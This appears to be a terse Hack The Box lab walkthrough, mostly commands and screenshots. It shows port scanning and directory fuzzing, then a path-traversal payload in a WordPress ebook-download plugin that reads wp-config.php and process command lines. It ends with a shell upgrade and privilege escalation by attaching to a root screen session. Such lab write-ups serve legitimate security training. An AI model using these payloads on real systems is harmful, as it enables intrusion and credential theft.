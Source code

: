 

```
nmap -sS -sC -sV -T5 -Pn 10.10.11.125
```
![image](https://github.com/regarmulia/HTB/assets/33616880/be022ff2-0ea7-4b07-850c-62180b3ecaa5)


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://10.10.11.125/wp-content/FUZZ -e .aspx,.php,.txt,.html
```
![image](https://github.com/regarmulia/HTB/assets/33616880/5f77925a-e53f-4365-8239-b28c5e9704f2)


```
http://10.10.11.125/wp-content/plugins/
```
![image](https://github.com/regarmulia/HTB/assets/33616880/fa8d6c3e-19ee-4647-868b-f71fc8fdc5fc)


```
https://www.exploit-db.com/exploits/39575
```
![image](https://github.com/regarmulia/HTB/assets/33616880/40ce0af1-0709-4d35-8248-112d04a32829)


```
/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
```
![image](https://github.com/regarmulia/HTB/assets/33616880/d3bfc7b6-6986-42bc-b970-94e3d598aff9)


```
http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/812/cmdline
```
![image](https://github.com/regarmulia/HTB/assets/33616880/6d3ff846-8d87-41ee-bb76-3d492edc6d34)
![image](https://github.com/regarmulia/HTB/assets/33616880/5664cfa5-f4d7-4f34-bfbd-433946f7cf65)
![image](https://github.com/regarmulia/HTB/assets/33616880/16123463-9033-489e-9fb1-024324f33a02)




```
ps aux
```
![image](https://user-images.githubusercontent.com/33616880/230254776-1416e191-549f-4f02-a683-cce2a129a5db.png)
![image](https://user-images.githubusercontent.com/33616880/230255081-2d9d559b-e3b9-4c4a-93d6-530f40436951.png)


```
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
screen -x root/root
```
![image](https://user-images.githubusercontent.com/33616880/230254965-359d1dd1-6eab-4e74-824f-fdb933ff8615.png)
![image](https://user-images.githubusercontent.com/33616880/230254971-feb96981-888e-4074-9941-9f76ec8ee266.png)
